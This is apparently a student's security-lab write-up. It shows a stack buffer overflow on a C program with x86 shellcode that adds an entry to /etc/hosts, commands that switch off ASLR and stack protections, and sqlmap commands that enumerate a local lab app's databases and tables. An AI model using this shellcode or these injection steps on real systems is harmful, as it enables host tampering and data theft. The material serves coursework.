 # Lab 1, 22110074, Nguyen Le Phuong Thu, INSE_02FIE

## Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
 char buffer[16];
 strcpy(buffer,argv[1]);
 return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

### 1. Fire up docker-compose to run the docker conteiner `docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` and then change working directory to the folder have this file

![image](./img/run%20docker.png)

### 2. Compile with nasm and then link with ld to generate executable file

![image](./img/compile.png)

### 3. Dump to `test.o` to show information of this file

`objdump -d test.o`
![image](./img/objdump.png)

### 4. Get the hex string of shellcode

Run the script `for i in $(objdump -d test | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo`
![image](./img/hex%20string.png)

### 5. Prepare for the lab environment

- Turn off OS's address space layout randomization `sudo sysctl -w kernel.randomize_va_space=0`
- Compile program with options to defeat stack protecting mechanism and code execution on stack `gcc lab1.c -o lab1.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`
![image](./img/prepare.png)

### 6. Stack frame 


![image](./img/stack.png)

> We have the byte of the buffer in this code is smaller than the byte of hex string of shellcode. So I use environment variables to exploit

### 7. Add shellcode to environment and get env address with C code

![image](./img/env.png)

### 8. Debug with gdb `gdb -q ./lab1.out`

![image](./img/gdb.png)

### 9. Find the address of env

`find /home/seed/seclabs/buffer-overflow/lab1`
![image](./img/find.png)

### 10. Run program in gdb with injecting argument

![image](./img/run.png)

## Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

### 1. Change working directory to folder of SQli

![image](./img/sqli.png)

### 2. Fire up the docker-compose to create the docker-container set for this lab

![image](./img/build%20sqli.png)



### 3. Install sqlmap
![image](./img/sqlmap.png)


**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
To retrieve information about all available databases, use
'''
sqlmap -u "http://localhost:3128/vulnerable_page.php?id=1" --dbs
'''

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
To list tables in a specific database
'''
sqlmap -u "http://localhost:3128/vulnerable_page.php?id=1" -D database_name --tables
'''

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

